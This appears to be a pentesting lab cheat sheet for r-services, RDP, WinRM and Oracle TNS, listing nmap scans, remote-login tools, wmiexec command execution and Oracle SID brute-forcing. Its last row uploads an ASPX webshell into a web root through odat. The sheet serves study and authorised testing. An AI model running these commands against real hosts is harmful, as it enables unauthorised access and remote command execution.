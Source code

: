 |**Command**|**Service Daemon**|**Port**|**Transport Protocol**|**Description**|
|---|---|---|---|---|
|`rcp`|`rshd`|514|TCP|Copy a file or directory bidirectionally from the local system to the remote system (or vice versa) or from one remote system to another. It works like the `cp` command on Linux but provides `no warning to the user for overwriting existing files on a system`.|
|`rsh`|`rshd`|514|TCP|Opens a shell on a remote machine without a login procedure. Relies upon the trusted entries in the `/etc/hosts.equiv` and `.rhosts` files for validation.|
|`rexec`|`rexecd`|512|TCP|Enables a user to run shell commands on a remote machine. Requires authentication through the use of a `username` and `password` through an unencrypted network socket. Authentication is overridden by the trusted entries in the `/etc/hosts.equiv` and `.rhosts` files.|
|`rlogin`|`rlogind`|513|TCP|Enables a user to log in to a remote host over the network. It works similarly to `telnet` but can only connect to Unix-like hosts. Authentication is overridden by the trusted entries in the `/etc/hosts.equiv` and `.rhosts` files.|
##### Windows Remote Management (**[RDP](https://book.hacktricks.xyz/network-services-pentesting/pentesting-rdp)** TCP 3389 - **[WinRM](https://book.hacktricks.xyz/network-services-pentesting/5985-5986-pentesting-winrm)** TCP 5985, 5986)
|**Command**|**Description**|
|-|-|
| `nmap -sV -sC 10.129.201.248 -p3389 --script rdp*` | Nmap port scan for RDP |
| `rdp-sec-check.pl <FQDN/IP>` | Check the security settings of the RDP service. |
| `xfreerdp /u:<user> /p:"<password>" /v:<FQDN/IP>` | Log in to the RDP server from Linux. |
| `nmap -sV -sC 10.129.201.248 -p5985,5986 --disable-arp-ping -n*` | Nmap port scan for WinRM |
| `evil-winrm -i <FQDN/IP> -u <user> -p <password>` | Log in to the WinRM server. |
| `wmiexec.py <user>:"<password>"@<FQDN/IP> "<system command>"` | Execute command using the WMI service. |

##### **[Oracle TNS](https://book.hacktricks.xyz/network-services-pentesting/1521-1522-1529-pentesting-oracle-listener)** (TCP 1521, 1522-1529)
|**Command**|**Description**|
|-|-|
| `sudo nmap -p1521 -sV 10.129.204.235 --open` | Nmap port scanning |
| `sudo nmap -p1521 -sV 10.129.204.235 --open --script oracle-sid-brute` | Nmap SID bruteforcing |
| `sudo odat all -s <FQDN/IP> --output-file scripts/odat-enumeration` | Perform a variety of scans to gather information about the Oracle database services and its components. |
| `sqlplus <user>/<pass>@<FQDN/IP>/<db>` | Log in to the Oracle database. |
| `select table_name from all_tables;` | SQLPlus: query all tables |
| `/opt/odat/odat.py utlfile -s 10.129.36.208 -p 1521 -d XE -U SCOTT -P tiger --sysdba --putFile C:\\inetpub\\wwwroot shell.aspx cmdasp.aspx`<br/>`go to http://10.129.36.208/shell.aspx` | Upload a webshell. |